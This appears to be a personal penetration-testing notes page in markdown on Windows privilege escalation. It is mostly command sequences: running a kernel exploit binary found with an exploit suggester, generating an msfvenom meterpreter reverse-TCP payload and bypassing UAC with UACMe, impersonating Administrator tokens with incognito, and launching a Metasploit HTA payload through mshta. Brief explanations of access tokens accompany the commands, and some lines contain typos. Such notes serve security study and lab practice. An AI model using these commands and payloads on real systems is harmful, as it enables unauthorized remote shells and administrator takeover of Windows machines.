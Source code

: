 ```yaml
---
title: 'Windows privilege escalation'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
slug: 'windows'
---
```


# kernel exploit

Metasploit module to identify kernel exploits
**_multi/recon/local_exploit_suggester_**

```bash
# windows-exploit suggester github

# With an active session, to get win7.txt systeminfo from target.
./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
...
windows version identifiedas 'windows ....'
MS16-135:
...

# Upload our payload windows-kernel-exploit/MS16-135/41015.exe into tmp directory

# -EXEC-
./41015.exe
```

# Bypassing UAC (User Account Control) with UACMe

- It abuses the built-in Windows AutoElevate executables.

- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.

- https://github.com/hfiref0x/UACME

- If the configuration setting is set highly its hard to by pass.

- User must be a local administrator group.

```bash
# Generate our payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=target LPORT=1234 -f exe > door.exe

# msfconsole, listening...
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST target
set LPOT 1234
run

#In other session upload evil-payload if meterpreter session
upload /root/akagi64.exe

# specifiet where is our payload
./akagi64.exe 23 C:\Temp\door.exe
```

```bash
# msfconsole, example of a denied service.
sysinfo
pgrep explorer
migrate $id
sysinfo
getuid
getprivs
shell
net user
net localgroup administrators
net user admin passwrod123
```

# Windows Access Tokens

- A core element of the authentication process on windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).

## Information

Are generated by the winlogon.exe process every time a user auth successfully and includes the identify and privileges of the user acc associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

- **Impersonate-level token:** Created as direct result of a non-interactive login on windows, typically through specific system services or domain logons, This tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.

- **Delegate-level Token:** Created through an interactive login on windows, primarily through a traditional login or through remote access protocols such as RDP. Pose the largest threat as they can be used to impersonate tokens on any system.

```bash
required privileges
# SeAssignPrimaryToken:
# SeCreateToken:
# SelmpersonatePrivilege:
```

## Exploit

```bash
# meterpreter
systeminfo
pgrep explorer
migrate pgred_explorer_id
getprivs

# Start attack - incognito
load incognito

# if there is no token use potato attack
list_tokens -u

#copy delegation tokens available
impersonate_token "token\Administrator"
getuid
getprivs
pgrep explorer
migrate id
getprivs

getuid # The administrator acc

```

## PowerShell command to bypass the default execution policy when running PowerShell scripts | PrivescCheck

```bash
# powershell -ep bypass .\script.ps1

# runas.exe /user:administrator cmd

### Kali
use exploit/windows/misc/hta_server
exploit

# Copy the local link and execute on cmd  with mshta.exe
mshta.exe http://link_generated_by_metasploit/hash

```

